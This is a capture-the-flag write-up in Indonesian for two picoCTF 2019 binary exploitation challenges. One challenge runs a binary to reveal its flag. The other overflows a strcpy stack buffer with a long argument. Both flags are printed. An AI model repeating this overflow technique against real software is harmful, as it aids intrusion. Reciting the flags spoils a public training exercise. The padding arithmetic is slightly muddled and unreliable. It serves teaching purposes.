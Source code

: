 # Binary Exploitation

## Penulis: [ahm4ddm](https://github.com/ahm4ddm)
## Daftar Isi:

| Binary Exploitation  |
| ------------- |
| [practice-run-1](#1-practice-run-1-50)|
| [OverFlow-0](#2-OverFlow-0-100)|


---
## 1. practice-run-1 (50)

### Soal:
You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this [program](https://2019shell1.picoctf.com/static/6eba3b66e7a2b786c6c9769711d85663/run_this) to receive a flag.
    
### Pembahasan:
Pertama, kita analisis dulu jenis filenya menggunakan perintah *file*
```
$file run_this
run_this: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=49eb1de81288cfa7d67445c1b3c79ecbdf91a359, not stripped

```
hint dari soal yaitu jalankan program.
```
$./run_this
bash: ./run_this: Permission denied
```
ganti hak akses dengan perintah 
```
$chmod +x run_this

```
lalu jalankan program. flag akan tampil.
```
$./run_this
picoCTF{g3t_r3adY_2_r3v3r53}
```
Sebenarnya ada cara lain yaitu dengan perintah *strings* dimana dengan perintah itu akan menampilkan seluruh strings yang ada di program.
```
$strings run_this
...
...
picoCTF{g3t_r3adY_2_r3v3r53}
...
...

```
<details>
	<summary>Flagnya</summary>

	picoCTF{g3t_r3adY_2_r3v3r53}

</details>  

## 2. OverFlow 0 (100)

### Soal:
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/2d0dd1f54c7e90ca426daa027152b01d/vuln) and get a flag. Its also found in /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6 on the shell server. [Source](https://2019shell1.picoctf.com/static/2d0dd1f54c7e90ca426daa027152b01d/vuln.c).

### Penyelesaian:
kita download source code dulu. setelah dianalisis program meminta inputan dari kita. serta program ukuran 32bit.

yang menarik dari source code adalah
```
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

```
panjang array char buf didefinisikan sebagai 128, jadi jika didalam memori sebesar 128 byte. disini terdapat bug yaitu *strcpy* dimana bug itu tidak mengecek ukuran array, maka bisa terjadi overflow. dalam kasus ini kita bisa melakukan overflow untuk mendapatkan flag.
kita buat inputan sebanyak 129 + 4 = 133.   
kenapa ditambah 4? karena programnya 32bit.
kita login di shell [picoctf](https://2019webshell1.picoctf.com)
```
ahm4d@pico-2019-shell1:~$ cd /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6
ahm4d@pico-2019-shell1:/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6$ ls -la
total 92
drwxr-xr-x   2 root       root          4096 Sep 28  2019 .
drwxr-x--x 684 root       root         69632 Oct 10  2019 ..
-r--r-----   1 hacksports overflow-0_5    27 Sep 28  2019 flag.txt
-rwxr-sr-x   1 hacksports overflow-0_5  7644 Sep 28  2019 vuln
-rw-rw-r--   1 hacksports hacksports     814 Sep 28  2019 vuln.c
ahm4d@pico-2019-shell1:/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6$ ./vuln aaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabi
picoCTF{3asY_P3a5y4a888b8e}
```
<details>
	<summary>Flagnya</summary>

	picoCTF{3asY_P3a5y4a888b8e}

</details>  

